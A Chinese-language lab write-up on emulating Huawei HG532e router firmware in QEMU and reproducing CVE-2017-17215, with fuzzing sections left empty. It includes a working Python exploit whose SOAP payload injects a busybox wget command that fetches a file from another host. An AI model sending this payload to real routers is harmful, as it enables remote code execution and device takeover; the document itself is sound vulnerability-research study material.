# Fuzzing - as diffcult as its name ？

## Requirements

- 搜集市面上主要的路由器厂家、在厂家的官网中寻找可下载的固件在CVE漏洞数据中查找主要的家用路由器厂家的已经公开的漏洞，选择一两个能下载到且有已经公开漏洞的固件
- 如果能下载对应版本的固件，在QEMU中模拟运行
  - 确定攻击面（对哪个端口那个协议进行Fuzzing测试），尽可能多的抓取攻击面正常的数据包（wireshark）
  - 查阅BooFuzz的文档，编写这对这个攻击面，这个协议的脚本，进行Fuzzing
  - 配置BooFuzz QEMU的崩溃异常检测，争取触发一次固件崩溃，获得崩溃相关的输入测试样本和日志
  - 尝试使用调试器和IDA-pro监视目标程序的崩溃过程，分析原理

## Get Started！

### 公开漏洞固件

- [CVE漏洞数据](https://cve.mitre.org/)
- [CVE-2017-17215](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-17215)
  > Huawei HG532 with some customized versions has a remote code execution vulnerability. An authenticated attacker could send malicious packets to port 37215 to launch attacks. Successful exploit could lead to the remote execution of arbitrary code.
  - 首次披露是由[checkpoint](https://research.checkpoint.com/2017/good-zero-day-skiddie/)所披露，漏洞利用的是upnp服务存在的注入漏洞实现任意命令执行
  - [参考](https://www.freebuf.com/vuls/160040.html)
  - [下载地址](https://ia601506.us.archive.org/22/items/RouterHG532e/router%20HG532e.rar)
- binwalk一下
    ```bash
    $ binwalk -Me HG532eV100R001C01B020_upgrade_packet.bin 

    Scan Time:     2020-07-19 10:12:00
    Target File:   /home/fuzz/HG532eV100R001C01B020_upgrade_packet.bin
    MD5 Checksum:  942d0a36ec57aeb764dcd4263e1630a1
    Signatures:    344

    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    8616          0x21A8          LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 97728 bytes
    70016         0x11180         LZMA compressed data, properties: 0x5D, dictionary size: 8388608 bytes, uncompressed size: 2733760 bytes
    970489        0xECEF9         Squashfs filesystem, big endian, lzma signature, version 3.0, size: 2636036 bytes, 193 inodes, blocksize: 65536 bytes, created: 2012-07-21 02:15:38


    Scan Time:     2020-07-19 10:12:02
    Target File:   /home/fuzz/_HG532eV100R001C01B020_upgrade_packet.bin.extracted/21A8
    MD5 Checksum:  1030a37b6217d35793cdec726b8a595d
    Signatures:    344

    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    84896         0x14BA0         CRC32 polynomial table, big endian
    86984         0x153C8         CRC32 polynomial table, big endian
    88128         0x15840         SHA256 hash constants, big endian
    95776         0x17620         HTML document header
    95899         0x1769B         HTML document footer
    95952         0x176D0         HTML document header
    96067         0x17743         HTML document footer
    96120         0x17778         HTML document header
    97401         0x17C79         HTML document footer
    97456         0x17CB0         HTML document header
    97590         0x17D36         HTML document footer


    Scan Time:     2020-07-19 10:12:03
    Target File:   /home/fuzz/_HG532eV100R001C01B020_upgrade_packet.bin.extracted/11180
    MD5 Checksum:  c307ecd05fa4f3f0829ff9deb7d162dc
    Signatures:    344

    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    330232        0x509F8         Certificate in DER format (x509 v3), header length: 4, sequence length: 64
    834784        0xCBCE0         Certificate in DER format (x509 v3), header length: 4, sequence length: 16
    1510488       0x170C58        Certificate in DER format (x509 v3), header length: 4, sequence length: 130
    1549742       0x17A5AE        mcrypt 2.5 encrypted data, algorithm: "0!", keysize: 4254 bytes, mode: "+",
    2017136       0x1EC770        Certificate in DER format (x509 v3), header length: 4, sequence length: 256
    2125824       0x207000        Linux kernel version "2.6.21.5 (wangfeizhou@whg) (gcc version 4.3.4 (GCC) ) #1 Sat Jul 21 10:13:09 CST 2012"
    2141856       0x20AEA0        CRC32 polynomial table, little endian
    2148328       0x20C7E8        CRC32 polynomial table, big endian
    2341192       0x23B948        Unix path: /home/wangfeizhou/code/release/BR-HG532eV100R001C01-20120416/driver/common/flash/spiflash_tc3162u.c
    2342032       0x23BC90        Unix path: /home/wangfeizhou/code/release/BR-HG532eV100R001C01-20120416/driver/common/bhal/bhal.c
    2396039       0x248F87        Neighborly text, "NeighborSolicitsts"
    2396063       0x248F9F        Neighborly text, "NeighborAdvertisementsmp6OutDestUnreachs"
    2396264       0x249068        Neighborly text, "NeighborSolicitsirects"
    2396292       0x249084        Neighborly text, "NeighborAdvertisementssponses"
    2399783       0x249E27        Neighborly text, "neighbor %.2x%.2x.%.2x:%.2x:%.2x:%.2x:%.2x:%.2x lost on port %d(%s)(%s)"
    ```
- 根据[CheckPoint](https://research.checkpoint.com/2017/good-zero-day-skiddie/)报告，漏洞点位于UPnP服务中，执行下列命令
  
  

- `file upnp`的结果，upnp是MIPS 32位 大端架构系统

  ```bash
  ~/_HG532eV100R001C01B020_upgrade_packet.bin.extracted/squashfs-root/bin$ file upnp
  upnp: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, corrupted section header size
  ```

### Environment

- Virtualbox 6.0.22
- Ubuntu 16.04.6 LTS Desktop
  - 网卡1：NAT网络
  - 网卡2：Host-only网络

### 分析环境搭建

#### 安装QEMU

```bash
$ sudo apt-get install qemu 
$ sudo apt-get install qemu-user-static
$ sudo apt-get install qemu-system
```

#### 配置网络环境

安装网络配置工具(用于桥接网络)
```bash
$ sudo apt-get install bridge-utils uml-utilities
```

修改ubuntu网络配置接口文件 /etc/network/interfaces

- 此处将桥接到host-only的网卡enp0s8上
```bash
$ sudo vim /etc/network/interfaces

# interfaces(5) file used by ifup(8) and ifdown(8)
auto lo
iface lo inet loopback

auto enp0s3
iface enp0s3 inet dhcp

auto enp0s8
iface enp0s8 inet manual

auto br0
iface br0 inet static
address 192.168.83.19
network 192.168.83.0
netmask 255.255.255.0
broadcast 192.168.83.255
gateway 192.168.83.1
bridge_ports enp0s8
bridge_stp off
bridge_hello 2
bridge_fd 9
bridge_maxage 12
bridge_maxwait 0
dns-nameservers 114.114.114.114
# 建立名为“br0”的桥
# 网络接口enp0s3将建立在这个桥之上
# 手动指定IP，可以将上面的配置信息替换成如下内容：
```

创建QEMU的网络接口启动脚本（/etc/qemu-ifup）并追加如下内容

```bash
# 首先备份
$ sudo cp /etc/qemu-ifup /etc/qemu-ifup.bak

$ sudo vi /etc/qemu-ifup

# 文末追加如下内容
#! /bin/sh
echo "Executing /etc/qemu-ifup"
echo "Bringing $1 for bridged mode..."
sudo /sbin/ifconfig $1 0.0.0.0 promisc up
echo "Adding $1 to br0..."
sudo /sbin/brctl addif br0 $1
sleep 3
```

赋予文件/etc/qemu-ifup 可执行权限：

```bash
$ sudo chmod a+x /etc/qemu-ifup
```

重启网络使所有的配置生效：

```bash
$ sudo /etc/init.d/networking restart
```

关闭enp0s3，启动桥连网络br0

```bash
$ sudo ifdown enp0s3  
$ sudo ifup br0
```



在桥接接口上启用IP转发和设置MASQUERADING，否则qemu的虚拟机可能会上不了网
```bash
$ sudo su -
# echo "1" > /proc/sys/net/ipv4/ip_forward
$ sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# 参考
# https://qastack.cn/superuser/445875/qemu-within-virtualbox-and-bridged-connections-all-the-way-down
# http://ajitabhpandey.info/2007/07/interconnecting-qemu-and-virtualbox-virtual-machines/
```

#### 加载路由器虚拟机的操作系统镜像

加载debian镜像文件：下载debian mips qemu镜像文件，作为固件运行环境，[下载地址](https://people.debian.org/~aurel32/qemu/mips/)

按教程下载[debian_squeeze_mips_standard.qcow2](https://people.debian.org/~aurel32/qemu/mips/debian_squeeze_mips_standard.qcow2)和[vmlinux-2.6.32-5-4kc-malta](https://people.debian.org/~aurel32/qemu/mips/vmlinux-2.6.32-5-4kc-malta)

启动qemu，运行刚刚下载的镜像文件
```bash
$ sudo qemu-system-mips -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic,macaddr=00:16:3e:00:00:01 -net tap
```



用root/root登录，发现网络不通，ifconfig -a 发现网络接口为eth1。（Ctrl+Alt退出鼠标）



修改/etc/network/interfaces 文件



再用`ifup eth1`将eth1启起来



确保主机的网络也是连通的，连通性测试如下 [只能保证qemu能够访问主机，主机能够访问网络]



直接操作虚拟机显然比较麻烦，在ubuntu上搞个SSH 连进来，ssh root@虚拟机ip，将之前解压的固件包拷贝到虚拟机里面：
`scp -r ./_HG532eV100R001C01B020_upgrade_packet.bin.extracted/squashfs-root  root@虚拟机ip:/root/`

### 漏洞复现

#### 定位漏洞点



注意其中的关键字：ctrlt和DeviceUpgrade_1，通过*grep -r [keywords]指令查看有哪些文件包含这两个词语，再找下端口号37215所在文件分别是`bin/upnp`和`bin/mic`



#### 运行漏洞点服务

要运行upnp和mic这两个文件，需要切换到路由器文件系统中，指令为`chroot /root/squashfs-root /bin/sh`，或者执行qemu中squashfs-root文件夹中执行`chroot . sh`

```
$ cd squashfs-root/
$ chroot . sh
# cd bin/
# /upnp
# /mic
```



#### 验证漏洞

测试一下路由器的37215端口

```bash
nc -vv 192.168.83.17 37215
Connection to 192.168.83.17 37215 port [tcp/*] succeeded!
```



#### EXP 脚本

根据披露的payload，构造EXP 脚本如下

```
import requests

headers = {
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
}

data = '''<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>;/bin/busybox wget -g 192.168.83.19 -l /tmp/1 -r /1;</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
requests.post('http://192.168.83.17:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)
```

监听发现80端口收到路由器发来的wget包（在ubantu上键入指令sudo nc -vlp 80 监听本机80端口），说明路由器成功执行exp中的wget指令



#### 漏洞原理


### BooFuzz


## Reference

- https://github.com/jtpereyda/boofuzz
- 配置桥接网络的资料
  - https://blog.csdn.net/u010817321/article/details/52117344
  - 